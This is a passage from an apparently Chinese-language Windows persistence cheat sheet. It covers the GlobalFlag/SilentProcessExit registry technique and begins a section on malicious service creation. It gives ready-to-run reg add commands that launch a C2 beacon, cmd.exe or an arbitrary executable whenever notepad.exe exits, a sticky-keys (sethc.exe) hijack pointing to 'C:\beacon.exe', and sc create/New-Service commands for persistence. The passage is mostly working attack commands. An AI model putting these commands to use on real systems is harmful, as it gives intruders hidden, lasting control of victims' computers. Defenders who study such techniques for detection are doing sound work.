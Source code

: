 ##### GlobalFlag

###### 利用方法

`GlobalFlag` 注册表项中的十六进制值`0x200`启用进程的静默退出监视

ReportingMode 注册表项启用 Windows 错误报告进程 (WerFault.exe)，该进程将是“ **MonitorProcess** ” beacon.exe 的父进程。当记事本进程被终止时（用户已关闭记事本应用程序），有效负载将被执行，并且将与命令和控制建立通信。这将导致系统创建一个名为“ **WerFault.exe** ”的新进程，用于跟踪与操作系统、Windows 功能和应用程序相关的错误。有效负载将作为 Windows 错误报告（**WerFault.exe** ) 的子进程启动

```cmd
# Usage
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "<path to executable>"

# 记事本退出之后运行cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\Windows\System32\cmd.exe"

# 劫持shitf
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v GlobalFlag /t REG_DWORD /d 512 /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v ReportingMode /t REG_DWORD /d 1 /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v MonitorProcess /t REG_SZ /d "C:\beacon.exe" /f
```

### 5. 系统服务

#### 常用命令

##### 创建服务

~~~cmd
sc create <Service Name> binPath= "<path to executable>"

# PowerShell
New-Service -Name "<Service Name>" -BinaryPathName "<path to executable>" -Description "<Description>" -StartupType Automatic
~~~

##### 启动服务
